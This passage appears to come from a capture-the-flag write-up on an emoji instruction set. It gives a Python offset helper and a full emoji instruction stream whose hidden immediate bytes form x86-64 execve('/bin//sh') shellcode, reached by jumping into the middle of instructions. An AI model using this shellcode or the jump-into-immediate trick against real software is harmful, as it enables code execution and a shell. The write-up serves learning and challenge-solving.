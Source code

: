 I write a small Python script to help compute the correct arguments to the
RUNNER emojinstruction which will let me jump wherever I want:

```python
import sys, numpy as np
if __name__ == "__main__" and len(sys.argv) >= 3:
    cur  = int(sys.argv[1]) # current ins number
    offs = int(sys.argv[2]) # jump offset in bytes (including current ins)
    x   = ((np.arange(256) - cur) * 5) & 255
    res = np.argwhere(x == offs).flat[0]
    print(f"to jump {offs} bytes from ins #{cur}, use RUNNER {res}")
```

Below is the final, full emojinstruction stream with above shellcode
interleaved:

```
# first, we use 💨(A, 0x68732f2f) to get: `mov eax, 0x68732f2f`
💨(A, 1752379183)

# next, 💨(B, 0x6e69622f) gets us `mov ebx, 0x6e69622f`
💨(B, 1852400175)

# jmp from ins #2 + 6 bytes forward
🏃 208
# by jumping to second byte of 💨(A, 0x20e0c148), we get `shl rax, 32`
💨(B, 551600456)


# jmp from ins #4) + 9 bytes forward
🏃 57
# by jumping to last byte of 💨(A, 0x48484848) followed by 👏, we get:
# add rax, rbx        ; 48 01 d8
# nop, nop, nop       ; 90 90 90
💨(A, 1212696648)
👏(_, 0)


# jmp from ins #7 + 6 bytes forward
🏃 213
# by jumping to second byte of 💨(A, 0x5056f631), we get:
# xor esi, esi        ; 31 f6
# push rsi            ; 56
# push rax            ; 50
💨(A, 1347876401)

# jmp from ins #9) + 6 bytes forward
🏃 215
# by jumping to second byte of 💨(A, 0x3b6af554), we get:
# push rsp            ; 54
# pop rdi             ; 5f
# push byte 59        ; 6a 3b
💨(A, 996826964)

# jmp from ins #11 + 6 bytes forward
🏃 217
# by jumping to second byte of 💨(A, 0x050f9958), we get:
# pop rax             ; 58
# cdq                 ; 99
# syscall             ; 0f 05
💨(A, 84908376)
```
